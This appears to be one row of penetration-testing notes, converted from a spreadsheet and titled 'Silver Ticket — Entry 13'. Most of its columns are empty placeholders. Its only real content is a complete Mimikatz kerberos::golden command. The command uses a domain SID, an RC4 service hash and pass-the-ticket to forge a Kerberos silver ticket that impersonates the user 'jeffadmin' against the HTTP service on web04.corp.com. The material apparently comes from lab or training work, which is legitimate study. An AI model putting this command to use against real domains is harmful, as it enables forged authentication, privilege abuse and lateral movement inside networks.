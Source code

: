 # Silver Ticket — Entry 13

## Unnamed: 0

_(empty)_

## Unnamed: 1

_(empty)_

## Unnamed: 2

Full command

## Unnamed: 3

_(empty)_

## Unnamed: 4

_(empty)_

## Unnamed: 5

_(empty)_

## Unnamed: 6

_(empty)_

## Unnamed: 7

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

## Unnamed: 8

_(empty)_

## Unnamed: 9

_(empty)_

## Unnamed: 10

_(empty)_

## Unnamed: 11

_(empty)_

